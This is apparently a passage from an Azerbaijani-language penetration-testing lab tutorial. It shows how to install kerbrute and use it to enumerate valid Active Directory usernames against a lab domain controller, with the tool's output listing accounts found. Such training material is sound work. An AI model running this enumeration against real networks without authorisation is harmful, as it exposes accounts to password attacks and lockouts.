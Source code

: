 ```bash
nijatmansimov@htb[/htb]$ ./kerbrute_linux_amd64 
```

```
    __           __             __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/           
                                          
Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]
  
  <SNIP>
```

Aləti sistemin istənilən yerindən asanlıqla əlçatan etmək üçün onu **PATH**-a əlavə edə bilərik.

**Aləti PATH-a Əlavə etmək**

```bash
nijatmansimov@htb[/htb]$ echo $PATH
/home/htb-student/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/snap/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/htb-student/.dotnet/tools
```

**Binar Faylı Köçürmək**

```bash
nijatmansimov@htb[/htb]$ sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

İndi sistemin istənilən yerindən `kerbrute` yaza bilərik və alətə daxil ola biləcəyik. Sisteminizdə yuxarıdakı addımları izləməkdən və tətbiq etməkdən çekinməyin. İndi alətdən istifadə edərək ilkin istifadəçi siyahısını toplamaq üçün bir nümunəyə baxaq.

**Kerbrute ilə İstifadəçiləri Təftiş etmək**

```bash
nijatmansimov@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

```
2021/11/17 23:01:46 >  Using KDC(s):
2021/11/17 23:01:46 >    172.16.5.5:88
2021/11/17 23:01:46 >  [+] VALID USERNAME:        jjones@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:        sbrown@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:        tjohnson@INLANEFREIGHT.LOCAL
2021/11/17 23:01:50 >  [+] VALID USERNAME:        evalentin@INLANEFREIGHT.LOCAL

 <SNIP>
 
2021/11/17 23:01:51 >  [+] VALID USERNAME:        sgage@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:        jshay@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:        jhermann@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:        whouse@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:        emercer@INLANEFREIGHT.LOCAL
2021/11/17 23:01:52 >  [+] VALID USERNAME:        wshepherd@INLANEFREIGHT.LOCAL
2021/11/17 23:01:56 >  Done! Tested 48705 usernames (56 valid) in 9.940 seconds
```